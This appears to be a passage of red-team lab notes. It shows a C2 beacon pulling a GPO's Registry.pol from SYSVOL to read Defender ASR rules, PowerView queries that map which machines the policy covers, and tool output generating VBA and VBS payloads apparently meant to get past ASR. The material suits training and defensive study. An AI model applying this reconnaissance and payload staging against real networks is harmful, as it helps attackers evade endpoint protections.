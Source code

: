 Download **Registry.pol** from the GpcFileSysPath and read it with **Parse-PolFile**.
```
beacon> download \\redteamops2.local\SysVol\redteamops2.local\Policies\{0047C7A8-63E1-4F60-A981-D5DD7F3F8663}\Machine\Registry.pol
[*] Tasked beacon to download \\redteamops2.local\SysVol\redteamops2.local\Policies\{0047C7A8-63E1-4F60-A981-D5DD7F3F8663}\Machine\Registry.pol
[+] host called home, sent: 121 bytes
[*] started download of \\redteamops2.local\SysVol\redteamops2.local\Policies\{0047C7A8-63E1-4F60-A981-D5DD7F3F8663}\Machine\Registry.pol (1588 bytes)
[*] download of Registry.pol is complete

PS C:\Users\Administrator\Desktop> Parse-PolFile .\Registry.pol

KeyName     : Software\Policies\Microsoft\Windows Defender\Windows Defender Exploit Guard\ASR
ValueName   : ExploitGuard_ASR_Rules
ValueType   : REG_DWORD
ValueLength : 4
ValueData   : 1

KeyName     : Software\Policies\Microsoft\Windows Defender\Windows Defender Exploit Guard\ASR\Rules
ValueName   : d4f940ab-401b-4efc-aadc-ad5f3c50688a
ValueType   : REG_SZ
ValueLength : 4
ValueData   : 1
```

The first entry is called **ExploitGuard_ASR_Rules** and the ValueData is set to **1**.  This simply indicates that ASR rules are enabled.  Following are each ASR rule donated by its GUID.  d4f940ab-401b-4efc-aadc-ad5f3c50688a is **Block all Office applications from creating child processes.**

These values can be:

-   0 - Disable
-   1 - Block
-   2 - Audit
-   6 - Warn

You can find which OUs (and subsequently which machines) this GPO is applied to with `Get-DomainOU` and the `-GPLink` parameter.  This will only return OUs that the specified GPO GUID in their gplink property.
```
beacon> powerpick Get-DomainOU -GPLink 0047C7A8-63E1-4F60-A981-D5DD7F3F8663 -Properties DistinguishedName

distinguishedname                           
-----------------                           
OU=2,OU=Workstations,DC=redteamops2,DC=local

beacon> powerpick Get-DomainComputer -SearchBase "LDAP://OU=2,OU=Workstations,DC=redteamops2,DC=local" -Properties SamAccountName

samaccountname
--------------
WKSTN-2$  
```


[+]: Generating the vba payload
[+]: First stage gadget generation done.
[+]: Compiling your .NET code located at:TestAssembly\Program.cs
[+]: Second stage gadget generation done.
[*]: Payload generation completed, check: C:\Users\Administrator\Desktop\vba.vba
[+]: Generating the vbs payload
[+]: First stage gadget generation done.
[+]: Loading your .NET assembly:TestAssembly\bin\Debug\TestAssembly.dll
[+]: Second stage gadget generation done.
[*]: Payload generation completed, check: C:\Users\Administrator\Desktop\wmi.vbs